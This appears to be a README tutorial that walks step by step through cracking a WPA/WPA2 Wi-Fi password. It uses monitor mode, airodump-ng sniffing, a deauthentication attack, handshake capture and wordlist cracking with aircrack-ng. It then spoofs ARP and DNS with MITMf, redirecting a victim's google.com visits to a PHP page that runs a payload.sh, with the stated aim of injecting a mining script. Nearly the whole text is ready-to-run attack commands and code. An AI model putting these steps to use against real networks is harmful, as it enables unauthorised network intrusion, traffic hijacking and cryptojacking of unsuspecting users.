# Gaining access to WPA/WPA2 with short/easy password and inject mining script
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.
The general idea is to use MITM attack and do DNS spoofing. When the victim visites google.com, I will redirect him to php file under my server and execute the payload
1. Install MITMf
```
cd ~;git clone https://github.com/byt3bl33d3r/MITMf; cd MITMf/;git submodule init && git submodule update --recursive
```
2. Change the /etc/mitmf/mitmf.conf file, add the following line below the IPv4 address record line
```
*.google.com=LOCALHOST_IP_IN_THE_TARGET_NETWORK/PATH_TO_PHP.php
```
3. Create the php file, Code I used is 
```
<?php
$result = shell_exec('/var/www/html/payload.sh');
echo $result;
?>
<a href="https://www.google.com">Continue to Google</a>
```
4. Update the payload.sh enclosed
5. find the target IP and gateway IP
```
netdiscover -i wlan0 192.168.1.1/24
```
5. run dns spoofing on kali and all done!
```
cd ~/MITMf; python mitmf.py --arp --spoof -i wlan0 --target TARGET_IP --gateway GATEWAY_IP --dns
```
I tested under my home network on my linux laptop, it is working.
